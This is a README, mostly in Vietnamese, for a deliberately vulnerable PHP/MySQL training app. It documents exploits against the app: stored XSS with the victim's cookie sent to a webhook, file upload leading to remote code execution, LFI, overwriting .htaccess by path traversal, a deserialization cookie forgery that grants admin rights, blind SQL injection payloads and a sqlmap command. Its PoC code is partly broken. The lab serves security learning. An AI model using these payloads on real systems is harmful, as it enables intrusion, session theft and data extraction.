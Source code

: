 ### Task 1 KCSC
- Technology : php, mysql, xdebug, mysqli

## I. Giới Thiệu : Demo basic vulnerability

# Login:
![Alt text](./image_Readme/image.png)
- Sau khi login sẽ chuyển đến index.php

# Remember user
- Click in remember me : hệ thống sẽ tự ghi nhớ user ghi đăng nhập lần tiếp theo


# Register
![Alt text](./image_Readme/image-1.png)
- Sau khi register sẽ chuyển đến login.php để đăng nhập

# Giao diện chính user

1, View post only by user
![Alt text](./image_Readme/image-2.png)

2, User can comment into post
![Alt text](./image_Readme/image-3.png)
![Alt text](./image_Readme/image-4.png)

3, User can view all of post by admin and click to read post details
![Alt text](./image_Readme/image-5.png)

# Giao diện phụ guest
![Alt text](./image_Readme/image-15.png)

# NavBar
![Alt text](./image_Readme/image-16.png)


# Menu user when click avatar option
If your role is admin, you can see dashboard else you can't
![Alt text](./image_Readme/image-6.png)
1, Dashboard admin only
  1.1, View main dashboard
  ![Alt text](./image_Readme/image-7.png)
  - Click in button  Back to MainPage to redirect index.php
  - Admin can see all of user
  ![Alt text](./image_Readme/image-8.png)

  1.2, Click in User in sidebar admin can see management users table have columns email, role, ...
  ![Alt text](./image_Readme/image-9.png)
  - Click in button Delete admin can delete this user
  - Click in button Edit admin can edit this user
  ![Alt text](./image_Readme/image-10.png)
  - Click in button Add user admin can view dialog add new user and click in add to add new user else close dialog
  ![Alt text](./image_Readme/image-11.png)

  1.3, Click in Post in sidebar admin can see management posts table have columns id, image, ...
  ![Alt text](./image_Readme/image-12.png)
  - Click in button Delete admin can delete this post
  - Click in button Edit admin can edit this post
  ![Alt text](./image_Readme/image-13.png)
  - Click in button Add post admin can view dialog add new post and click in add to add new post else close dialog
  ![Alt text](./image_Readme/image-14.png)
2, Change avatar
   ![Alt text](./image_Readme/image-17.png)
   You can upload file to use this avatar and we resize this avatar to 400x400

## II. Vulnerability in this demo APP

1, Store XSS

![Alt text](./image_Readme/image-18.png)
![Alt text](./image_Readme/image-19.png)
![Alt text](./image_Readme/image-20.png)
- Where edit and add users or port for admin
![Alt text](./image_Readme/image-28.png)

+ attack : có trong các trang index.php manage_post và user.
![Alt text](./image_rm/image.png)
- Sau khi login nếu click user_remember sẽ set cookie và check trong db có user không nếu có sẽ redirect qua trang index.php và set Session cho người dùng
- Sau đó em post 1 comment vào blog của admin hoặc bất kì user nào
![Alt text](./image_rm/image-1.png)
- Comment của em hiển thị với chức năng như 1 thẻ <script> trong page
![Alt text](./image_rm/image-2.png)
- Và đây là lỗ hổng store XSS vì em có lưu nội dung của comment trong database
![Alt text](./image_rm/image-3.png)
Bởi vì tất cả user sau khi đăng nhập đều có thể dùng page này nên em sẽ khai thác XSS<có thể thử hầu hết các payload của XSS và thành công> như sau: có thể dùng webhook hoặc pipedream.com để bắt cookie của victim ạ

- ở đây em dùng webhook
![Alt text](./image_rm/image-4.png)
Và sau khi load ảnh error thì sẽ gửi request đến webhook kèm cookie của nạn nhận với bất kì người dùng nào truy cập trang này
![Alt text](./image_rm/image-5.png)
![Alt text](./image_rm/image-6.png)



2, Upload file not filter basic
I will update filter for you try hard @@
![Alt text](./image_Readme/image-21.png)
![Alt text](./image_Readme/image-22.png)
![Alt text](./image_Readme/image-23.png) 


+attack:
![Alt text](./image_rm/image-7.png) 
- em upload 1 file php in ra nội dung của phpinfo();
![Alt text](./image_rm/image-8.png)
- Sau đó em mở file này ra thì được kết quả
![Alt text](./image_rm/image-9.png)
- Vậy là mình có thể upload bất kì đoạn code của php và RCE được sever

3, Local file inclusion <basic filter>
![Alt text](./image_Readme/image-24.png)
- Em truy cập vào trang guest.php và dùng fuff để fuzz thì tìm thấy có 1 param mà trang web nhận đó là page và sẽ include nội dung của bất kỳ file nào truyền vào
![Alt text](./image_rm/image-10.png)
- Em đọc được file .htaccess cho phép file txt được chạy như file php từ đó nếu đoạn upload file mà filter file php thì em có thể upload file txt và RCE tương tự như trên
- Em có thể đọc nội dung của bất kì trang nào bằng cách truyền vào param page này :<

4, Upload file to rewrite .htaccess
![Alt text](./image_Readme/image-25.png)
Example : I rewrite .htaccess allow run file txt same php
![Alt text](./image_Readme/image-26.png)
- có thể thấy là page đã hidden 1 ô input để điều khiển vị trị khi upload của người dùng
- Nếu em không thay đổi default thì page sẽ trỏ đến mặc định ạ còn nếu có thì sẽ gắn thêm path này vào route upload file
![Alt text](./image_rm/image-11.png)
- nên em sẽ lợi dụng để truyền thành upload via path traversal file .htaccess ạ
- Em để file .htaccess thành trống để xem thay đổi
![Alt text](./image_rm/image-12.png)
![Alt text](./image_rm/image-13.png)
- em đổi thành  ../../ để chuyển ra được thư mục chính cùng cấp với index và rewrite file .htaccess
![Alt text](./image_rm/image-14.png)
Lúc này em được quyền chạy file txt như là php và đây cũng là 1 cách đơn giản để vượt qua bypass đuôi file .php ạ.


5, Deserialize vulnerabilities
Chức năng remember me chứa lỗ hổng này . Khi remember me set remember_data và khi vào lại thì check cookie xem có không deserialize

attack :
- Khi mà login thì có check xem có ghi nhớ người dùng hay không Nếu mà có thì sau khi check user có tồn tại hay không thì sẽ seri sau đó sẽ serialize rồi base64 encode và lưu vào cookie với tên là user_remember
- Lần sau khi người dùng đăng nhập lại sẽ check nếu có cookie user_remember thì sẽ base64 decode và deserialize và gán thẳng vào $_SESSION của người dùng luôn nên lỗi ở đây là mình có thể chuyển role của người dùng thành admin và mình có thể authorization dasboard của admin ạ

![Alt text](./image_rm/image-15.png)
- Đây là hàm check ạ 
![Alt text](./image_rm/image-16.png)

Burp suite :
Em  tạo 1 tài khoản bất kì thì mặc định role là không phải admin sau đó em đăng nhập và ấn remeber me thì sẽ set user_remeber
POC.php
<?php
class User_remember
{
                                        private $id;
                                        private $username;
                                        private $email;
                                        private $admin;

                                        public function __construct($id, $username, $email, $admin)
                                        {
                                                                                $this->id = $id;
                                                                                $this->username = $username;
                                                                                $this->admin = $admin;
                                                                                $this->email = $email;
                                        }
                                        public function getName()
                                        {
                                                                                return $this->username;
                                        }
                                        public function getRole()
                                        {
                                                                                return $this->admin;
                                        }
                                        public function getId()
                                        {
                                                                                return  $this->id;
                                        }
                                        public function getEmail()
                                        {
                                                                                return $this->email;
                                        }
}

$attachment = new Attachment($id_default, $username_default, $email_default, 1);
echo base64_encode(serialize($attachment));

?>
sau đó 
POC.py
////
ookie = {'user_remember': base64_encode(serialize($attachment));}
r=requests.get(
    "http://localhost/task_KCSC/app/admin/index.php",
    cookies= cookie
)
data=json.loads(r.content.decode())
print(data['output'][4:])

///
cách bằng tay ạ :
![Alt text](./image_rm/image-18.png)
![Alt text](./image_rm/image-19.png)
Sau đó em chuyển thành 1 ở đoạn role 
![Alt text](./image_rm/image-20.png) 
và gắn vào lại cookie truy cập vào dasboard của admin
![Alt text](./image_rm/image-21.png)

-Em đang phát triển chức năng ghi logs to RCE<Lấy ý tưởng của KCSC recruite ạ>

6. Blind SQL injection
![Alt text](./image_Readme/image-29.png)
Hihi em không biết nên áp dụng blind sqli kiểu chi trong trường hợp product nên làm kiểu này ạ ^^

![Alt text](./image_rm/image-17.png)
- Đây là hàm dính lỗi ạ
![Alt text](./image_rm/image-22.png)
- nếu mà quản trị viên tìm email của user này nếu tồn tại sẽ trả về còn không thì sẽ không trả về gì ạ.
- Em sẽ sử dụng điều kiện và substring để dumb db ạ<em chưa dumb thử bằng sqlmap nhưng mà chắc cũng được ạ:v>
+ Đầu tiên em sẽ dùng payload email = llam16219@gmail.com' OR 1=1-- - câu lệnh query sẽ trở thành 
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' OR 1=1-- -'" đoạn sau sẽ comments và câu lệnh đúng
+ sau đó em chuyển thành "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND 1=1-- -'"
+ Để check rằng 2 điều kiện của em là luôn đúng thì sẽ trả ra exist user
![Alt text](./image_rm/image-23.png)
- Nếu em không biết trước loại database thì em sẽ check xem loại db gì và ở đây em đã thử được của mysql 
- Sau đó sẽ tìm thông tin password, email trong database của admin bằng cách sau 
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND (SELECT length(password) FROM users WHERE role=1 LIMIT 1)>'$a' -- -'"
- Chuyển các giá trị được đánh dấu đô la trong lệnh trên các list là number để check nếu không còn tồn tại User exists nữa thì sẽ là độ dài password tại đó

          "SELECT * FROM users WHERE email = 'llam16219@gmail.com' AND (SELECT SUBSTRING(password,$1,1) FROM users WHERE role=1 LIMIT 1)='$a' -- -'"
- Chuyển các giá trị được đánh dấu đô la trong lệnh trên các list là number và brute-force tất cả chữ cái chữ số và kí tự đặc biệt và chọn pitch-force để check hết tất cả
Hihi cái này em băm mật khẩu ra md5 nên nó khá lâu ạ nên em xin phép chuyển qua check username ạ :<
          "SELECT * FROM users WHERE email = 'llam16219@gmail.com'+AND+(SELECT+SUBSTRING(username,$1,1)+FROM+users+WHERE+role=1+LIMIT+1)+=+'$a'--+-'"
- có bước tìm length của password cũng tương tự ạ nhưng mà chỉ 1 payload number và dùng sniper ạ
![Alt text](./image_rm/image-25.png)
![Alt text](./image_rm/image-26.png)
![Alt text](./image_rm/image-27.png)
- Sau đó em chỉnh đoạn lọc của kết quả :
![Alt text](./image_rm/image-28.png)
+
![Alt text](./image_rm/image-29.png)
Đoạn cột 1 thì sẽ là vị trí của chuỗi ạ và đoạn code 2 là giá trị của chuỗi và ghép lại sẽ được username của user ạ
# Sử dụng sqlmap :
sqlmap -u "http://localhost/task_KCSC/app/admin/index.php" --data="email_exist=llam16219@gmail.com*&btn_emai_exist=" --method POST -dbs --batch để lấy tên tất cả các tables.



7, Cmd injection <đang phát triển> tại không biết nhiều ứng dụng khi dùng exec nên em chưa dùng nhiều :<
Trong main_upload_image để convert size image
![Alt text](./image_Readme/image-27.png)
mà tên file mình có thể config được nên có thể Blind Cmd injection mà này em chưa test linux nên chưa thử được ạ :3

8, Disclosure information
- Lộ file .htaccess and /robots.txt ạ:v


#   c h u y e n _ d e _ c o _ s o 
 
 
